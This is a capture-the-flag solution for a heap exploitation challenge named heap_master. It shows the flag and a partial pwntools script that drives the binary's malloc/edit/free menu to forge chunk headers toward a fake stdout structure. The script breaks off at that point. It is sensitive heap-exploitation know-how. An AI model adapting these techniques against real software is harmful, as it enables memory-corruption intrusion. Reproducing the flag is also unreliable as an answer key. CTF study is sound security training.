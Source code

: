flag: `*CTF{You_are_4_r3al_h3ap_Master!}`

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '34.92.248.154'
port = 10000

binary = "./heap_master"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def malloc(size):
  r.recvuntil(">> ")
  r.sendline("1")
  r.recvuntil(": ")
  r.sendline(str(size))
  pass

def edit(offset,data):
  r.recvuntil(">> ")
  r.sendline("2")
  r.recvuntil(": ")
  r.sendline(str(offset))
  r.recvuntil(": ")
  r.sendline(str(len(data)))
  r.recvuntil(": ")
  r.send(data)
  pass

def free(offset):
  r.recvuntil(">> ")
  r.sendline("3")
  r.recvuntil(": ")
  r.sendline(str(offset))
  pass
if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})
  #r = remote("127.0.0.1" ,9999)

else:
  r = remote(host ,port)

if __name__ == '__main__':
  for i in xrange(0xe):
    edit(0xf8 + i*0x10,p64(0x201))
  for i in xrange(0x10):
    edit(0x2f8 + i*0x10,p64(0x21))
  for i in xrange(0xd):
    free(0x1d0-i*0x10)
    malloc(0x1f0)
    
  #fake IO_2_1_stdout at mmap+0x100 .  
```